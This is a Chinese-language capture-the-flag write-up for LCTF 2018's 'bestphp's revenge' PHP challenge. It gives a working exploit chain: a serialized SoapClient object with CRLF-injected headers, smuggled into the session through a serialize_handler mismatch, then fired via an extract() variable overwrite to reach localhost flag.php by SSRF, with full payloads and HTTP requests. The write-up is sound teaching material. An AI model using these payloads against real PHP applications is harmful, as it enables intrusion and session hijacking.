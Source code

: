 ## 0x01 bestphp's revenge

首页

```php
<?php
highlight_file(__FILE__);
$b = 'implode';
call_user_func($_GET['f'], $_POST);
session_start();
if (isset($_GET['name'])) {
    $_SESSION['name'] = $_GET['name'];
}
var_dump($_SESSION);
$a = array(reset($_SESSION), 'welcome_to_the_lctf2018');
call_user_func($b, $a);
?> array(0) { }
```

有flag.php

```html
only localhost can get flag!session_start(); echo 'only localhost can get flag!'; $flag = 'LCTF{*************************}'; if($_SERVER["REMOTE_ADDR"]==="127.0.0.1"){ $_SESSION['flag'] = $flag; } only localhost can get flag!
```

显然我们要通过SSRF来拿到flag

这里我们构造soap序列化数据，ssrf+crlf带着可控的phpsessid访问flag.php

SOAP是啥

可以利用这个任意POST报文脚本做一个简单的示例

```php
<?php
$target = "http://127.0.0.1:5555";
$post_string = '';
$headers = array(
    'X-Forwarded-For: 127.0.0.1',
    'Cookie: PHPSESSID=hgjf7894tb5m33n4c3ht1gu0n0'
    );
//这里还运用了CRLF注入攻击使得整个POST报文参数可控
$attack = new SoapClient(null,array('location' => $target,
                                    'user_agent'=>"eki\r\nContent-Type: application/x-www-form-urlencoded\r\n".join("\r\n",$headers)."\r\nContent-Length: ".(string)strlen($post_string)."\r\n\r\n".$post_string,
                                    'uri'      => "aaab"));
$payload = urlencode(serialize($attack));
echo $payload;
$c = unserialize(urldecode($payload));
$c->b();
```

接收端

```
root@EDI:~/codes/buuoj# nc -lvvp 5555
listening on [any] 5555 ...
connect to [127.0.0.1] from localhost [127.0.0.1] 9491
POST / HTTP/1.1
Host: 127.0.0.1:5555
Connection: Keep-Alive
User-Agent: eki
Content-Type: application/x-www-form-urlencoded
X-Forwarded-For: 127.0.0.1
Cookie: PHPSESSID=hgjf7894tb5m33n4c3ht1gu0n0
Content-Length: 0


Content-Type: text/xml; charset=utf-8
SOAPAction: "aaab#b"
Content-Length: 365

<?xml version="1.0" encoding="UTF-8"?>
<SOAP-ENV:Envelope xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" xmlns:ns1="aaab" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/" SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"><SOAP-ENV:Body><ns1:b/></SOAP-ENV:Body></SOAP-ENV:Envelope>
```

也就是说通过SOAP对象的反序列化我们能打到内网的/flag.php从而拿到flag

构造反序列对象，这里我们只需要

```php
<?php
$target = "http://127.0.0.1/flag.php";
$attack = new SoapClient(null,array('location' => $target,
                              'user_agent' => "Eki\r\nCookie: hgjf7894tb5m33n4c3ht1gu0n0\r\n",
                              'uri' => "123"));
$payload = urlencode(serialize($attack));
echo $payload;
//O%3A10%3A%22SoapClient%22%3A5%3A%7Bs%3A3%3A%22uri%22%3Bs%3A3%3A%22123%22%3Bs%3A8%3A%22location%22%3Bs%3A25%3A%22http%3A%2F%2F127.0.0.1%2Fflag.php%22%3Bs%3A15%3A%22_stream_context%22%3Bi%3A0%3Bs%3A11%3A%22_user_agent%22%3Bs%3A41%3A%22Eki%0D%0ACookie%3A+hgjf7894tb5m33n4c3ht1gu0n0%0D%0A%22%3Bs%3A13%3A%22_soap_version%22%3Bi%3A1%3B%7D
```

接下来是想办法让他反序列化执行。

这里利用session_start()的参数可控将序列化数据注入到sessionfile中

对于第一个``call_user_func()``

```php
...
call_user_func($_GET[f],$_POST);
...
if(isset($_GET[name])){
    $_SESSION[name] = $_GET[name];
}
...
```

构造出

```php
$_GET = array('f'=>'session_start','name'=>'|<serialize data>')
$_POST = array('serialize_handler'=>'php_serialize')
```

得到

```php
call_user_func('session_start',array('serialize_handler'=>'php_serialize'))
$_SESSION[name] = '|<serialize data>'
```

因为

> php_binary:存储方式是，键名的长度对应的ASCII字符+键名+经过serialize()函数序列化处理的值
>
> php:存储方式是，键名+竖线+经过serialize()函数序列处理的值
>
> php_serialize(php>5.5.4):存储方式是，经过serialize()函数序列化处理的值 

而默认采用的``serialize_handler``是``php``

可以做一个小实验

```php
//test1.php
<?php
ini_set('session.serialize_handler', 'php_serialize');
session_start();
$_SESSION['ryat'] = '|O:1:"A":1:{s:1:"a";s:2:"xx";}';
var_dump($_SESSION);
```

```php
//test2.php
<?php
#ini_set('session.serialize_handler', 'php_serialize');
session_start();
#$_SESSION['ryat'] = '|O:1:"A":1:{s:1:"a";s:2:"xx";}';
class A {
  public $a = 'aa';
  function __wakeup() {
    echo $this->a;
  }
}
var_dump($_SESSION);
```

访问test1.php 得到``array(1) { ["ryat"]=> string(30) "|O:1:"A":1:{s:1:"a";s:2:"xx";}" }``

访问test2.php 则得到了 ``xxarray(1) { ["a:1:{s:4:"ryat";s:30:""]=> object(A)#1 (1) { ["a"]=> string(2) "xx" } }``

可以看到在test2.php里被解析成了对象，并且成功调用了``__wakeup``，本题我们也是希望通过这种方式实现SSRF

发报文,注意这里要带``Content-Type: application/x-www-form-urlencoded``。不然会没法解析...

```
POST /?f=session_start&name=|O%3A10%3A%22SoapClient%22%3A5%3A%7Bs%3A3%3A%22uri%22%3Bs%3A3%3A%22123%22%3Bs%3A8%3A%22location%22%3Bs%3A25%3A%22http%3A%2F%2F127.0.0.1%2Fflag.php%22%3Bs%3A15%3A%22_stream_context%22%3Bi%3A0%3Bs%3A11%3A%22_user_agent%22%3Bs%3A41%3A%22Eki%0D%0ACookie%3A+hgjf7894tb5m33n4c3ht1gu0n0%0D%0A%22%3Bs%3A13%3A%22_soap_version%22%3Bi%3A1%3B%7D HTTP/1.1
Host: d46f35c6-a0fa-4140-bbb8-83cbde350129.node3.buuoj.cn
Content-Length: 31
Pragma: no-cache
Cache-Control: no-cache
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.116 Safari/537.36
Cookie: PHPSESSID=lhav4dvjbfkr9aqc13ec8h0ig6
Origin: http://d46f35c6-a0fa-4140-bbb8-83cbde350129.node3.buuoj.cn
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://11dc9259-2de4-44c7-bc7d-c6abfe6f07e6.node3.buuoj.cn/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

serialize_handler=php_serialize
```

讲道理我们重新访问后带着注入的PHPSESSION，根据``var_dump($_SESSION);``应该就能拿到flag了

但是因为新版的php修复了soap反序列化的时候会发送网络请求的bug，所以还需要正向调用激活。

这里利用第二个call_user_func激活soap类

```php
$b = 'implode';
call_user_func($_GET[f],$_POST);
session_start();
...
$a = array(reset($_SESSION),'welcome_to_the_lctf2018');
call_user_func($b,$a);
```

可以看到经过上一步，`$_SESSION`里的数据是soap对象，再经过reset()弹出这个对象成为了`$a[0]`，那么我可以通过变量覆盖`$b`为`call_user_func`，调用`$a`中的这个对象，从而触发soap的网络请求。

```php
$_GET = array('f'=>'extract');
$_POST = array('b'=>'call_user_func');

->
call_user_func('extract','$POST');
call_user_func('call_user_func','<SOAPOBJECT>');
```

经过这一步，soap请求真正发了出去，phpsessid相应的session里被加入了flag

```
POST /?f=extract&name=SoapClient HTTP/1.1
Host: d46f35c6-a0fa-4140-bbb8-83cbde350129.node3.buuoj.cn
Content-Length: 16
Pragma: no-cache
Cache-Control: no-cache
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.116 Safari/537.36
Origin: http://d46f35c6-a0fa-4140-bbb8-83cbde350129.node3.buuoj.cn
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://d46f35c6-a0fa-4140-bbb8-83cbde350129.node3.buuoj.cn/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: PHPSESSID=lhav4dvjbfkr9aqc13ec8h0ig6
Connection: close

b=call_user_func
```

如果之前上传成功的话，回传会显示SoapCilent

然后我们再GET一次首页，就会拿到存储flag的PHPSESSION

修改COOKIE即可拿到flag